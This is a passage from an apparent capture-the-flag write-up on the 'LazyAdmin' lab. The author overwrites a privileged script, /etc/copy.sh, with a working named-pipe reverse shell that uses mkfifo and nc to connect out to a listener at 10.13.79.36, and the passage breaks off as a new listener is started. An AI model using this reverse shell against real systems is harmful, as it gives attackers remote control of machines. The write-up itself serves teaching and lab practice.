 <img src="assets/images/thm/ctf/lazyadmin-26.png" style="max-width:100%; height:auto;">

It executed `/etc/copy.sh` which contained a named pipe reverse shell:

<img src="assets/images/thm/ctf/lazyadmin-27.png" style="max-width:100%; height:auto;">

I replaced the script:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.79.36 5554 >/tmp/f" > /etc/copy.sh
```

<img src="assets/images/thm/ctf/lazyadmin-28.png" style="max-width:100%; height:auto;">

Started a new listener:
